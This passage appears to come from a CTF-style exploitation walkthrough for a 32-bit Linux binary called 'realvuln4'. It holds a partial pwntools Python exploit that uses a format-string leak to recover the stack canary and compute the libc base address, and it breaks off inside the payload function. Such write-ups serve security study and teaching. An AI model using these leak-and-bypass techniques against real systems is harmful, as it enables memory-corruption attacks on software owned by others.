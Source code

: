 So far we can spot nothing out of the ordinary except the obvious vulnerabilities and the presence of stack canaries.
That said, let's directly jump into the exploit development!

#### Exploit

```python
#!/usr/bin/env python2

import argparse
from pwn import *
from pwnlib import *

context.arch ='i386'
context.os ='linux'
context.endian = 'little'
context.word_size = '32'
context.log_level = 'DEBUG'

binary = ELF('./binary/realvuln4')
libc = ELF('/lib/i386-linux-gnu/libc-2.23.so')


def leak_addresses():
    leaker = '%llx.' * 68
    return leaker


def prepend_0x_to_hex_value(hex_value):
    full_hex_value = '0x' + hex_value
    return full_hex_value


def extract_lower_8_bits(double_long_chunk):
    return double_long_chunk[len(double_long_chunk) / 2:]


def cast_hex_to_int(hex_value):
    return int(hex_value, 16)


def get_canary_value(address_dump):
    get_canary_chunk = address_dump.split('.')[-2]
    get_canary_part = extract_lower_8_bits(get_canary_chunk)
    canary_with_pre_fix = prepend_0x_to_hex_value(get_canary_part)
    print("[+] Canary value is {}".format(canary_with_pre_fix))
    canary_to_int = cast_hex_to_int(canary_with_pre_fix)
    return canary_to_int


def get_libc_base_from_leak(address_dump):
    get_address_chunk = address_dump.split('.')[1]
    get_malloc_chunk_of_it = extract_lower_8_bits(get_address_chunk)
    malloc_with_prefix = prepend_0x_to_hex_value(get_malloc_chunk_of_it)
    print("[+] malloc+26 is @ {}".format(malloc_with_prefix))
    libc_base = cast_hex_to_int(malloc_with_prefix)-0x1f6faa                # offset manually calculated by leak-libcbase
    print("[+] This puts libc base address @ {}".format(hex(libc_base)))
    return libc_base


def payload(leaked_adrs):
    canary = get_canary_value(leaked_adrs)
    libc_base = get_libc_base_from_leak(leaked_adrs)
```
